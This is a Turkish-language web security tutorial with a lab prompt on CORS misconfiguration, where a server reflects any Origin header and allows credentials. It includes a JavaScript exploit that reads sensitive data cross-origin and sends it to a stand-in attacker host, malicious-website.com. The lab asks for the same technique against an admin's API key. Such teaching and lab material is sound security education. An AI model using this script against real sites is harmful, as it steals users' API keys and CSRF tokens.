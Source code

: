 Bazı uygulamaların bir dizi başka domain'e erişim sağlaması gerekir. İzin verilen domainlerin bir listesini tutmak sürekli çaba gerektirir ve herhangi bir hata işlevselliği bozma riski taşır. Bu nedenle bazı uygulamalar, diğer tüm domainlerden erişime etkin bir şekilde izin vermenin kolay yolunu seçer.

Bunu yapmanın bir yolu, request'lerden Origin header'ını okumak ve request eden origin'e izin verildiğini belirten bir response header'ı eklemektir. Örneğin, aşağıdaki request'i alan bir uygulamayı düşünün:

```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

Daha sonra cevap verir:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

Bu header'lar, request'de bulunan domain'den (`malicious-website.com`) erişime izin verildiğini ve cross-origin request'lerin cookie (`Access-Control-Allow-Credentials: true`) içerebileceğini ve dolayısıyla session içinde işleneceğini belirtir.

Uygulama, `Access-Control-Allow-Origin` header'ında keyfi originler yansıttığından, bu, kesinlikle herhangi bir domain'in savunmasız domain'den kaynaklara erişebileceği anlamına gelir. Respon,e API key veya CSRF token gibi hassas bilgiler içeriyorsa, web sitenize aşağıdaki script'i yerleştirerek bu bilgileri alabilirsiniz:

```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```

---

# Lab: CORS vulnerability with basic origin reflection

Bu web sitesi, tüm originlere güvendiği için güvenli olmayan bir CORS yapılandırmasına sahiptir.

Laboratuvarı çözmek için, adminin API anahtarını almak üzere CORS kullanan bir JavaScript oluşturun ve kodu exploit sunucunuza yükleyin. Admin'in API anahtarını başarıyla gönderdiğinizde laboratuvar çözülmüş olur.
